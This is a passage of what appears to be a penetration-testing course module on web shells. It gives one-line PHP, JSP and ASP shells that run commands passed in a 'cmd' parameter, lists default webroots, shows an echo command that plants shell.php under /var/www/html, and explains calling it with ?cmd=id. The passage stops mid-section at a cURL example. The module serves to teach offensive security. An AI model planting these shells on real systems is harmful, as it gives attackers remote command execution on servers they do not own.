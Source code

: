 Php:

```php
<?php system($_REQUEST["cmd"]);?>
```

Jsp:

```java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

```

Asp:

```
<% eval request("cmd") %>

```

**Uploading a Web Shell**

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

| **Web Server** | **Default Webroot** |
| --- | --- |
| `Apache` | /var/www/html/ |
| `Nginx` | /usr/local/nginx/html/ |
| `IIS` | c:\inetpub\wwwroot\ |
| `XAMPP` | C:\xampp\htdocs\ |

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

Code: bash

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

```

**Accessing Web Shell**

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

![https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

Another option is to use `cURL`:
